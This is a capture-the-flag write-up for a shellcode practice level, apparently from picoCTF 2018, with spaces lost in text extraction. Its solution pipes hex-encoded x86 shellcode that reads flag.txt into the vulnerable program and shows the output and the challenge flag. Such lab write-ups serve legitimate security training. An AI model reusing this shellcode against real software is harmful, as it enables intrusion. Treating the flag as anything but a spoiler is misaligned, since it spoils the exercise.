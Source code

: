 #LEVELGOAL

Thisprogram[1]executesanyinputyougiveit.Canyougetashell?Youcanfindtheprogramin/problems/shellcode_2_0caa0f1860741079dd0a66ccf032c5f4ontheshellserver.Source[2].

#HINTS

(1)Maybetrywritingsomeshellcode?(2)Youalsomightbeabletofindsomegoodshellcodeonline.

#SOLUTION

```
nikel@pico-2018-shell-1:/problems/shellcode_2_0caa0f1860741079dd0a66ccf032c5f4$python-c'print("31c031db31c931d2eb325bb00531c9cd8089c6eb06b00131dbcd8089f3b00383ec018d0c24b201cd8031d
b39c374e6b004b301b201cd8083c401ebdfe8c9ffffff666c61672e747874".decode("hex"))'|./vuln
Enterastring!
11112[1̀1̀
$̀19t̀flag.txt
Thanks!Executingnow...
picoCTF{shellc0de_w00h00_8b811b44}
```

#FLAG

picoCTF{shellc0de_w00h00_8b811b44}
